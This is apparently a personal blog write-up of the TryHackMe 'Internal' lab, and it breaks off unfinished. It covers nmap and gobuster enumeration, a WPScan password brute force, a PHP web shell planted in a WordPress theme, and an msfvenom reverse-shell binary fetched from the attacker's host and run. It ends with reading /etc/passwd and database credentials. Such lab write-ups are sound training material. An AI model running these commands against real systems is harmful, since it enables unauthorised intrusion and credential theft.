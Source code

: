 +++
title = 'Internal Write Up'
date = 2024-02-14T08:50:55+02:00
draft = false
tags = ["tryhackme", "security", "pentest", "oscp"]
+++

Box: Internal\
Platform: Try Hack Me\
Grade: Medium

## Service Enumeration

````
sudo nmap -sC -sV 10.10.52.194

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.57 seconds
````

### SSH

OpenSSH 7.6p1. 

### Web

Apache httpd 2.4.29.

Only default page is shown. The logical next step is to try to find the directory structure of the server.

```
gobuster dir -u http://10.10.52.194 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 --no-error

http://10.10.52.194/phpmyadmin/index.php
http://10.10.52.194/blog
http://10.10.52.194/wordpress
```

It seems the site is running Worpress. Trying to log to phpmyadmin with default credentials doesn't work. Browsing to /wordpress shows that the page tries to reach out to its own domain name internal.thm. Adding that to /etc/hosts.

### Wordpress

Running WPScan to reveal potential vulnerabilities.

````
sudo wpscan -e ap -t 500 --url http://internal.thm/blog
````

WordPress 5.4.2 and no plugins installed. Which is a bummer because plugins are a great point of entry. 

Trying the WP admin panel at http://internal.thm/blog/wp-login.php to enumerate valid usernames. Admin is a valid user according to error message.

At this point I couldn't find an obvious vulnerability for WP so I resorted to trying to brute force the admin login. I'm not a fan of brute forcing anything so this should be used as a last resort if nothing else offers an opportunity. 

````
sudo wpscan --password-attack xmlrpc -t 20 -U admin -P /usr/share/wordlists/rockyou.txt --url http://internal.thm/wordpress
````

Much to my surprise brute force attempt was succesful and I found the admin password. The next step is easy. Let's attempt to exploit WP Themes Editor. 

## Initial Access

So logged in as admin browsing to Theme Editor.
Edit Twenty Seventeen: 404 Template

```
# Adding a simple web shell after the initial comments.
system($_GET[cmd]);

# Testing the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=id
```

````
# Enumerating OS users
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=cat+/etc/passwd

aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
````

So it seems that the system has one standard user and one service account user which suggest MySQL runs on the box. 

Webshell works but the next step is to upgrade the shell. 

## Shell Upgrade

````
# Create shell and listener
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.67.91 LPORT=4444 -f elf > shell.elf
rlwrap nc -nvlp 4444

# Enable Python web server
python -m http.server 8000

# Execute the shell
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=curl+http://10.11.67.91:8000/shell.elf+-o+/tmp/shell.elf 
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=chmod+700+/tmp/shell.elf   
curl http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php?cmd=/tmp/shell.elf 

# Upgrade to interactive
python -c 'import pty; pty.spawn("/bin/bash")'
````

## Operating System Enumeration

The config file wp-config.php reveals a hardcoded MySQL username and password.

```
cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'

<ss$ cat wp-config.php | grep 'DB_USER\|DB_PASSWORD'
define( 'DB_USER', 'wordpress' );
```

## MySQL Enumeration

````
show databases;
use wordpress;
show tables;
select * from wp_users;
````

Only admin user was found. It doesn't give anything new as I already have WP admin account. 




CONTINUES...